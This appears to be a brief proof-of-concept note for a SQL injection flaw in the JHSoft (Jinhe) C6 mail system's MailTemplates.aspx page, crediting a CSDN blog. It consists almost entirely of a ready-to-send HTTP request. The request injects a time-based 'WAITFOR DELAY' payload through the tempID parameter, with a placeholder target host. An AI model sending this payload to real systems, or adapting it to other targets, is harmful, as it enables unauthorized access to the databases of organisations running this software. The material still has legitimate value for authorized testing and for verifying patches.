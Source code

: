 # jinhe_MailTemplates_sql

2023/1/15
from: https://blog.csdn.net/luochen2436/article/details/135472695
@2
```
GET /C6/JHSoft.Web.Mail/MailTemplates.aspx/?tempID=1%3BWAITFOR+DELAY+%270%3A0%3A3%27-- HTTP/1.1
Host: you_ip
Pragma: no-cache
Cache-Control: no-cache
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/120.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8
Connection: close

```
